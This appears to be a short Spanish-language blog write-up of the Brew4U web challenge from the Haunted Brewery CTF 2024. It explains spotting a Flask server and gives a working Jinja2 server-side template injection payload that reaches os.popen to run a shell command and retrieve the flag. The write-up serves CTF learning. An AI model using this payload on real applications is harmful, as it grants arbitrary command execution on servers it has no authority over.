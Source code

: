 ```yaml
---
layout: post
title: Brew4U Haunted Brewery CTF
comments: true
categories: [Web, Writeups, HauntedBreweryCTF]
---
```


Este es el segundo writeup que subo del [Haunted Brewery CTF 2024](https://ctftime.org/ctf/1191/), donde logramos un puesto 20, dejando buenas sensaciones con el progreso del equipo.

![Image]({{ site.baseurl }}/images/posts/haunted-brewery-2024.png)

# Reconocimientpo

En este reto se nos presenta una página donde podemos insertar texto:

![Image]({{ site.baseurl }}/images/posts/2024-11-04-Brew4U-Haunted-Brewery-CTF-2.png)

Si investigamos con *WhatWeb*, veremos que el servidor web es *flask*, por lo que tendría sentido probar un *SSTI* (Server-Side Template Injection):

![Image]({{ site.baseurl }}/images/posts/2024-11-04-Brew4U-Haunted-Brewery-CTF-1.png)

Si enviamos dicha cadena, efectivamente recibimos un error:

![Image]({{ site.baseurl }}/images/posts/2024-11-04-Brew4U-Haunted-Brewery-CTF-3.png)

De forma, que con un input como el siguiente, se nos dará la flag:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

Eso sería todo, si te ha gustado, échale un ojo a mi otro [writeup de web]({% post_url 2024-11-04-Anti-Spirit-FCaptcha-Haunted-Brewery-CTF %}).
